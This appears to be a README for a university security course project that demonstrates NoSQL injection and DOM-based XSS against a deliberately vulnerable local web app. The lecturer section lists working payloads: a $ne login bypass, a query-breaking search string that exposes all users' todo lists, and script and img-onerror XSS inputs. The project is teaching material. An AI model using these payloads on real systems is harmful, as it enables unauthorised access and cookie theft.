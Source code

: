 # ISEC3004 Group 9

### Demo for:

-   NoSQL Injection
-   DOM Based XSS

# For lecturer / testing

### ✅ Build:

-   Download and install [Docker](https://www.docker.com/products/docker-desktop/)
-   Run `make -i docker-build`
-   Go to: `http://localhost:8001/`

### 1️⃣ NoSQL Injection #1:

Log in as any existing user.

-   Enter `http://localhost:8000/login?username=james&password[%24ne]=` into the address bar.

The server will interpret that as `{ username: 'james', password: { '$ne': '' }`; the password is passed into MongoDb as a JSON object, where the criteria will always evaluate to `true`.

### 1️⃣ NoSQL Injection #2:

Get every user's private todo list.

-   Enter `') || ('a'=='a) // ` into the search box.

### 1️⃣ DOM-Based XSS #1:

-   Enter `asdf<script>alert("Malicious code executed, cookies stolen!");</script>` in the Text to Binary Converter.

### 2️⃣ DOM-Based XSS #2:

-   Enter `http://localhost:8000/dom-xss2#Christine Bui"><img src="x" onerror="function f(){alert('Malicious code executed, cookies stolen!');} f()">` into the address bar.

# For developers

### ⚒️ Initial setup:

-   Download and install [Docker](https://www.docker.com/products/docker-desktop/)
-   Install node and npm
-   Run `make install`

### 🧑‍💻 Daily dev:

-   Run `make docker-start`
-   Run `make dev`
-   Go to: `http://localhost:8000/`
-   Click `/seed-data` to create dummy data and fake accounts

